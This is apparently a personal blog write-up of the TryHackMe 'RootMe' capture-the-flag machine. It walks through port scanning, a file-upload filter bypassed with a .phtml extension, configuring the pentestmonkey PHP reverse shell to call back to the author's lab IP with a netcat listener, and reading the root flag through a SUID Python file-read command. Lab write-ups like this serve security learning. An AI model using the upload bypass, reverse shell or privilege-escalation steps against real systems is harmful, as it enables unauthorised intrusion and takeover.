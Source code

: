 ```yaml
---
tagline: rootme
title: THM | RootMe 
description: Another THM Privilege Escalation Machine 🔓
banner: /blog/rootmebanner.jpeg/
banner_alt: Root Me Banner (if u find this, send 4533454352234 to me in general to get a pinned message)
date: '2024-02-28'
---
```


## Nmap Scan

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.102.215
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 23:18 EST
Nmap scan report for 10.10.102.215
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.29 seconds
```

- We know that ports 22 & 80 are open, 22 is running ssh, and 80 is running http with *Apache 2.4.29*.

## Dirsearch

- While the room advises us to utilize *Gobuster*, I will instead use *Dirsearch*.

![Image showing the results of dirsearch](/blog/rootmepics/dirsearch.png 'Fig.1')

- The only hidden directory here is */panel/*

## Obtaining the User Flag

- When accessing */panel/*, we are greeted with a upload panel

![Image showing the upload panel](/blog/rootmepics/uploadpanel.png 'Fig.2')

- We might need to find or create a PHP script to upload. Looking at the hint proves us correct!

- I will be using [this PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) for my attack. Make sure to change lines 49 & 50 with your Desired port & IP also change 54 with your desired shell.

``` bash:Terminal
49 $ip = '10.2.121.184';  // CHANGE THIS
50 $port = 4444;       // CHANGE THIS
···
54 $shell = 'uname -a; w; id; /bin/bash -i';
```

- My first method of bypassing the php filter did not work (it was <filename>.png.php) and I was greeted with this.

![Image showing the upload panel angry at me](/blog/rootmepics/phpuploaddenied.png 'Fig.3')

- My next attempt was a .phtml and it uploaded! Make sure to go to */uploads* and click on the PHP script to run. AND I HAVE ACCESS!!!!

```bash:Terminal
# Note: Before I modified the script to use bash, I used sh
┌──(vipin㉿vipin)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.121.184] from (UNKNOWN) [10.10.102.215] 48754
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:09:16 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
cat /var/www/user.txt
THM{XXXXXXXXXXXX}
```

- Time to nap nap😴, let me finish this tmrw!

## Getting The Root Flag

- I started by running the command in the hint, with that there were only a select few that were unusual with */usr/bin/python* being one.

- Using [gtfobins file read exploit](https://gtfobins.github.io/gtfobins/python/#file-read) for python we get this.

```bash:Terminal
www-data@rootme:/$ python -c 'print(open("/root/root.txt").read())' 
python -c 'print(open("/root/root.txt").read())'
THM{XXXXXXXXXXXXXXXXXXX}
```

## Closure

Hope you enjoyed this writeup, I enjoyed it very much and found the [Python File read exploit]((https://gtfobins.github.io/gtfobins/python/#file-read)) fun. Feel free to check out more @ other writeups [here](https://www.vipinb.xyz/blog)! 

